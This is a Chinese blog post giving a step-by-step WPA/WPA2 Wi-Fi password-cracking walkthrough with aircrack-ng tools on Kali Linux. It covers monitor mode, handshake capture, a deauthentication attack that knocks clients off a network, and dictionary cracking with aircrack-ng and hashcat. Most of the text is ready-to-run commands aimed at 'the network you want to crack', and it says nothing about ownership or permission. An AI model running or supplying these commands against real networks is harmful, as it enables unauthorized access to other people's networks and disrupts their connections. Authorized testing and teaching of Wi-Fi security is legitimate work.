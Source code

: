 ```yaml
---
title: wlan密码安全测试
date: 2022-01-31 15:38:06
---
```


## 环境
1. Kali Linux（推荐），该系统预装了用到的所有工具，或者其它基于debian的GUN/Linux也是可以的，需要手动安装[Aircrack-ng](http://aircrack-ng.org/),`sudo apt-get install aircrack-ng`
>为了方便可以将系统安装到优盘（[安装文档](https://www.kali.org/docs/usb/live-usb-install-with-windows/)），奇怪的是，使用官方推荐的工具[etcher](https://github.com/balena-io/etcher/releases)、[rufus](https://rufus.ie/zh/)制作的优盘，在UEFI+GPT方式的引导下并没有成功进入系统，后来使用了Win32DiskImager并关闭了BIOS的安全启动才成功进入系统。
**注意：**使用Win32DiskImager制作启动盘会对优盘的容量有折损，建议使用闲置的优盘。

2. 一个支持[监听模式](https://en.wikipedia.org/wiki/Monitor_mode)的无线网卡（一般笔记本自带的就可以），台式机的话可以买个外置无线网卡，[支持的设备](http://www.wirelesshack.org/best-kali-linux-compatible-usb-adapter-dongles-2016.html)

## 渗透过程
### 开启网卡监听
```
# 列出支持Monitor_mode的接口
airmon-ng
# 开启网卡监听模式
airmon-ng start wlan0
# 查看处于监听的接口
iwconfig
```

### 扫描你要破解的网络

```
airodump-ng wlan0mon
```
`ctrl+c`退出扫描，记下你要破解无线的BSSID MAC地址和channel，后面会用到


### 捕获握手包

WAP/WAP2是用[4-way handshake](https://security.stackexchange.com/questions/17767/four-way-handshake-in-wpa-personal-wpa-psk)验证网络设备的，我们需要捕获到其中的一次握手来破解密码。
```
# replace -c and --bssid values with the values of your target network
# -w specifies the directory where we will save the packet capture
airodump-ng -c 3 --bssid 9C:5C:8E:C9:AB:C0 -w handshake mon0
```
当屏幕上出现类似`[ WPA handshake: bc:d3:c9:ef:d2:67`的字符串时，说明捕获成功，此时会在当前目录下生成handshake-01.cap文件，我们需要这个文件进行破解。
>此方式需要等有设备连接时才会捕获到握手包，但是我们可以通过以下方式，来促使这一过程的完成

### Deauth Attack
可以伪造一个forged deauthentication packets取消验证的数据包发给终端。
```
# -0 2 specifies we would like to send 2 deauth packets. Increase this number
# if need be with the risk of noticeably interrupting client network activity
# -a is the MAC of the access point
# -c is the MAC of the client
aireplay-ng -0 2 -a 9C:5C:8E:C9:AB:C0 -c 64:BC:0C:48:97:F7 mon0

# not all clients respect broadcast deauths though
aireplay-ng -0 2 -a 9C:5C:8E:C9:AB:C0 mon0
```

### 解密

```
# download the 134MB rockyou dictionary file
curl -L -o rockyou.txt https://github.com/brannondorsey/naive-hashcat/releases/download/data/rockyou.txt
# -a2 specifies WPA2, -b is the BSSID, -w is the wordfile
aircrack-ng -a2 -b 9C:5C:8E:C9:AB:C0 -w rockyou.txt hackme.cap
```
等待出现`KEY FOUND!`时，则成功解密

### hashcat解密
[hashcat](https://github.com/hashcat/hashcat)是世界上最快，最先进的密码恢复实用程序，支持五种独特的攻击模式，适用于300多种高度优化的哈希算法。hashcat 目前在 Linux、Windows 和 macOS 上支持 CPU、GPU 和其他硬件加速器，并具有帮助启用分布式密码破解的功能。

* 通过[cap2hccapx](https://hashcat.net/cap2hccapx/)将cap文件转化为hashcat需要的格式
* 通过[example_hashes](https://hashcat.net/wiki/doku.php?id=example_hashes),搜索wap加密的Hash-Mode

```
# -m 指定hash-mode -a 指定攻击模式
hashcat -m 22000 -a 0 ${破解文件} ${字典}
```


[地址](https://github.com/brannondorsey/wifi-cracking)


